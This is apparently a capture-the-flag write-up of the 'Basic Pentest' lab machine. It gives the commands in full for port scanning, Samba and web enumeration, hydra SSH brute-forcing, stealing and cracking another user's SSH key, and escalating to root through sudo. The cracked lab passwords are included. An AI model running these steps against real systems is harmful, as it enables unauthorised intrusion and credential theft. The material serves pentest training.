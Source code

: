 ===Basic Pentest	Flutter Jul 19 2021===

IP 10.10.75.25

> export IP=10.10.75.25</br>
	
'MYIP 10.10.31.144

> export IP=10.10.31.144'


# Recon #

----------------
	Scanning
----------------	

 $ nmap -sV -sC -T5 -vv -oN nmap_initial $IP

		'''
		22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)

		80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
			http-methods: 
				Supported Methods: GET HEAD POST OPTIONS
			http-server-header: Apache/2.4.18 (Ubuntu)
			http-title: Site doesn't have a title (text/html).

		139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

		445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

		8009/tcp open  ajp13       syn-ack ttl 64 Apache Jserv (Protocol v1.3)
			ajp-methods: 
				Supported methods: GET HEAD POST OPTIONS

		8080/tcp open  http-proxy  syn-ack ttl 64
		'''
> running Apache http</br>
> running Samba


### Samba Enumeration ###

 $ enum4linux -a $IP | tee enum4$IP.log

> Shares Discovered

		'''
		Anonymous       Disk      
		IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
		'''

> Users Discovered

		'''
		Unix User\kay (Local User)
		Unix User\jan (Local User)
		BASIC2\nobody (Local User)
		'''


### Site ###

 $ gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_80

	'''
	/development (Status: 301)
	/server-status (Status: 403)
	'''

---------------------
	Visiting Site
---------------------

- http://$IP/ source

		'''
		Undergoing maintenance

		Please check back later

		//Check our dev note section if you need to know what to work on.
		'''

- http://$IP/development
	> dev.txt

		'''
		2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
		to host that on this server too. Haven't made any real web apps yet, but I have tried that example
		you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
		using version 2.5.12, because other versions were giving me trouble. -K

		2018-04-22: SMB has been configured. -K

		2018-04-21: I got Apache set up. Will put in our content later. -J
		'''

	> j.txt

		'''
		For J:

		I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
		and I was able to crack your hash really easily. You know our password policy, so please follow
		it? Change that password ASAP.

		-K
		'''

### Users ###

- jan
- kay 


# Intrusion #

$ ssh jan@10.10.75.25
> pass: armando

jan@basic2:~$ id
> uid=1001(jan) gid=1001(jan) groups=1001(jan)
 


# PrivEsc # 

jan@basic2:~$ sudo -l
 
> Password protected, tried "armando"

		'''
		Sorry, user jan may not run sudo on basic2.
		'''

jan@basic2:~$ find / -type f -user root -perm -u=s 2>/dev/null

> Nothing useful found :c

### Lateral Movement ###

jan@basic2:~$ ls -la /home

	'''
	drwxr-xr-x  2 root root 4096 Apr 23  2018 jan
	drwxr-xr-x  5 kay  kay  4096 Apr 23  2018 kay
	'''

jan@basic2:~$ ls -la /home/kay

	'''
	-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
	drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
	'''

$ scp -r jan@$IP:/home/kay/.ssh kay_ssh/

$ chmod 600 id_rsa

$ ssh -i id_rsa kay@$IP

	Enter passphrase for key 'id_rsa':
	//grr, see Passwords

$ ssh kay@$IP
	
> pass: beeswax

kay@basic2:~$ id
	
	uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

$ scp -i id_rsa kay@10.10.75.25:/home/kay/pass.bak Passwords/

> pass.bak
	  
	  heresareallystrongpasswordthatfollowsthepasswordpolicy$$

kay@basic2:~$ sudo -l

> Password protected, tried "heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
		
		User kay may run the following commands on basic2:
    		(ALL : ALL) ALL

 kay@basic2:~$ sudo su root
 
> root gained

*Flag Found*<details>
	<summary>Spoiler</summary>
	
> /root/flag.txt:

		'''
		Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
		a shell, and two ways to privesc. I encourage you to find them all!

		If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
		takeaways from this challenge should be that every little bit of information you can find can be
		valuable, but sometimes you'll need to find several different pieces of information and combine
		them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
		an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
		in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
		therefore might've been overlooked by administrators.

		Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
		out to me.

		Happy hacking!
		'''
</details>


# Passwords #

----------------
	Cracking
----------------

- jan ssh

	> hydra -L users.txt -P rockyou.txt -o initial_pass

	<details><summary>users.txt</summary>
	
			jan
			kay
	
	</details>

	<details><summary>initial_pass</summary>
	
			login: jan | pass: armando
			Stopped. (kay was taking too long)

	</details>
			
- kay ssh private key passphrase
	> ssh2john id_rsa > kay_john</br>
	> john kay_john --wordlist=rockyou.txt

		pass: beeswax

---------------
	Exposed
---------------

- kay ssh
	> pass.bak
	
		pass: heresareallystrongpasswordthatfollowsthepasswordpolicy$$

